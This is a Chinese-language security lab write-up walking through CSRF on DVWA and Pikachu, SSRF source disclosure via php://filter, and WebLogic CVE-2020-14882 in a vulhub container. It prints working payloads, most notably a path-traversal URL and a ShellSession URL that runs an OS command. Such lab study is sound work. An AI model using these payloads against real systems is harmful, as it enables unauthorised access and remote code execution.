

### 1. CSRF

#### DVWA-High 等级

1. 使用pablo(密码letmein)用户登录，DVWA Security - High
2. 通过XSS(Reflected)模块(输入``)获取pablo用户的cookie信息


3. 切换到CSRF模块，打开burp进行抓包，在CSRF模块提交新密码


4. Cookie段，改成之前xss抓到的cookie值，security改成low，`PHPSESSID=bo5gn68611g61khqn7as1eakqc; security=low`，GET url段的&user_token删除后放行抓到的数据包。显示pablo密码修改成功。用新密码123456登录测试成功。


#### 使用 Burp 生成 CSRF 利用 POC

1. 使用kobe用户登录


2. 修改个人信息，打开burp进行包抓取


3. 使用burp的CRSF POC generator


4. 生成的csrf html 替换抓到的数据包最后一段后放行。


### 2. SSRF（file_get_content），要求获取 ssrf.php 的源码；

1. 在pikatu平台，SSRF(file_get_content)模块，




2. 使用file_get_contents()函数构造url，file_get_contents里面带有php://filter 我们用它就可以来读取php源码，直接使用 resource 指定 ssrf.php 文件，可以看到访问成功

```url
http://192.168.216.129:8082/pikachu/vul/ssrf/ssrf_fgc.php?file=php://filter/resource=ssrf.php
```


3. 获取php源码，拿到网站的源代码被解析了，为了不让它解析，需要对代码再做一层编码，拿到之后我们再进行解码，这样就拿到了网站的源代码。在read参数中加入 convert.base64-encode，重新构造url

```url
http://192.168.216.129:8082/pikachu/vul/ssrf/ssrf_fgc.php?file=php://filter/read=convert.base64-encode/resource=ssrf.php
```


### 3. 远程代码执行漏洞：Weblogic RCE

1. 安装docker-compose，下载vulhub

```shell
minwang@minwang-vm-ubuntu:~$ sudo apt install docker-compose
正在读取软件包列表... 完成
正在分析软件包的依赖关系树... 完成
正在读取状态信息... 完成
将会同时安装下列软件：
  containerd.io docker-ce docker-ce-cli python3-attr python3-distutils python3-docker python3-dockerpty python3-docopt
  python3-dotenv python3-jsonschema python3-pyrsistent python3-setuptools python3-texttable python3-websocket
建议安装：
  cgroupfs-mount | cgroup-lite python-attr-doc python-jsonschema-doc python-setuptools-doc
推荐安装：
  docker.io
下列【新】软件包将被安装：
  docker-compose python3-attr python3-distutils python3-docker python3-dockerpty python3-docopt python3-dotenv
  python3-jsonschema python3-pyrsistent python3-setuptools python3-texttable python3-websocket
下列软件包将被升级：
  containerd.io docker-ce docker-ce-cli
升级了 3 个软件包，新安装了 12 个软件包，要卸载 0 个软件包，有 113 个软件包未被升级。
需要下载 47.3 MB 的归档。
解压缩后会消耗 1466 kB 的额外空间。
您希望继续执行吗？ [Y/n] y

minwang@minwang-vm-ubuntu:~$ git clone https://github.com/vulhub/vulhub.git
正克隆到 'vulhub'...
remote: Enumerating objects: 14381, done.
remote: Counting objects: 100% (54/54), done.
remote: Compressing objects: 100% (39/39), done.
remote: Total 14381 (delta 15), reused 44 (delta 10), pack-reused 14327
接收对象中: 100% (14381/14381), 164.22 MiB | 73.00 KiB/s, 完成.
处理 delta 中: 100% (5816/5816), 完成.
正在更新文件: 100% (2065/2065), 完成.

minwang@minwang-vm-ubuntu:~/vulhub/weblogic/CVE-2020-14882$ docker-compose up -d
Creating network "cve-2020-14882_default" with the default driver
Pulling weblogic (vulhub/weblogic:12.2.1.3-2018)...
12.2.1.3-2018: Pulling from vulhub/weblogic
4040fe120662: Pull complete
5788a5fddf0e: Pull complete
88fc159ecf27: Pull complete
138d86176392: Pull complete
586a610c1c83: Pull complete
8362c571c14a: Pull complete
d4802e4ac1d2: Pull complete
Digest: sha256:8ddf63df92426e521e60c2db913602394a799921fb3919094aef012e3ad6b13f
Status: Downloaded newer image for vulhub/weblogic:12.2.1.3-2018
Creating cve-2020-14882_weblogic_1 ... done
```


2. 利用CVE-2020-14882漏洞，访问以下URL，即可未授权访问到管理后台页面：

`http://39.104.26.211:7001/console/css/%252e%252e%252fconsole.portal`  (访问404 not found)

`http://39.104.26.211:7001/console/images/%252e%252e%252fconsole.portal` （成功进入管理后台页面）

`注：%252e%252e%252f 是经过两次URL编码后的../，通过这个就可以实现穿越路径未授权访问后台页面`


```url
http://39.104.26.211:7001/console/images/%252e%252e%252fconsole.portal?_nfpb=true&_pageLabel=&handle=com.tangosol.coherence.mvel2.sh.ShellSession("java .lang.Runtime.getRuntime().exec('touch%20/tmp/geektime2');")
```


